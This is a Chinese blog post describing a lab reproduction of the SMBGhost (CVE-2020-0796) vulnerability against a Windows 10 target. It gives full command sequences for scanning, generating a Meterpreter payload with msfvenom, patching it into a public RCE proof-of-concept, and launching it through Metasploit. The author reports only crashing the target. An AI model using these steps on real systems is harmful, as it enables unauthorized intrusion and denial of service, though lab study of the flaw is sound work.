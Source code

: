 ```yaml
---
title: CVE-2020-0796bug复现
date: 2023-04-21 10:10:13
categories: 技术
tags:
    - 网络安全
---
```


### 惭愧声明
稍微了解一点就会知道，CVE-2020-0796是可以拿到shell的，但是因为技术能力的限制，到现在复现bug我也没有拿到shell，只会让靶机蓝屏重启。先把博客更了，等后续搞明白了，再来更新。

### 准备工作

首先，准备一台kali和一台运行1903版本或者1909版本的windows10。

<!-- more -->

关闭windows10的防火墙和实时保护功能。

在kali上准备待会要用到的工具。

1. 启用扫描脚本

```git
  git clone https://github.com/ollypwn/SMBGhost.git
```

有人说这个脚本不准确，有时候检测超时也会报bug可利用，这个脚本也不太重要，至少对于这个实验来说。

2. 下载EXP脚本

```git
  git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
```

### 扫描bug

准备好扫描脚本后进入该目录，执行：

```python
  python3 scanner.py 192.168.20.135
```

"192.168.20.135"更换为自己靶机的IP。下面是效果图，显示"Vulnerable"，易受攻击的。

![bug扫描](./CVE-2020-0796/1.png)

### 准备payload

进入使用EXP脚本的SMBGhost_RCE_PoC目录，执行：

```bash
  msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -f py -o payload
```

执行之后会在SMBGhost_RCE_PoC目录下生成payload文件。接下来很重要的步骤：

1. 打开payload。

2. 打开exploit.py。

3. 将payload中“buf”字段全部替换为“USER_PAYLOAD”字段。

4. 复制替换完成的payload文件内容。

5. 粘贴到（覆盖）exploit.py文件USER_PAYLOAD区域。

![修改payload](./CVE-2020-0796/2.png)

### 开始攻击

1. 启动```msfconsole```。

2. 使用模块。

3. 设置有效载荷和相关参数。

依次执行以下命令：

```bash
  msfconsole -q
  use exploit/multi/handler
  set payload windows/x64/meterpreter/bind_tcp
  set lport 4444
  set rhost 192.168.20.135
  run
```

![攻击](./CVE-2020-0796/3.png)

再打开一个终端，进入SMBGhost_RCE_PoC目录，运行：

```bash
  python3 exploit.py -ip 192.168.20.135
```

![运行 exploit.py](./CVE-2020-0796/4.png)

出现这步后按下回车。

然后回到win10，发现win10蓝屏正在重启。

![win10重启](./CVE-2020-0796/5.png)

如果完成的彻底，```msfconsole```终端会弹出meterpreter，但是很遗憾，我没有拿到靶机的shell。

![拿到shell](./CVE-2020-0796/6.png)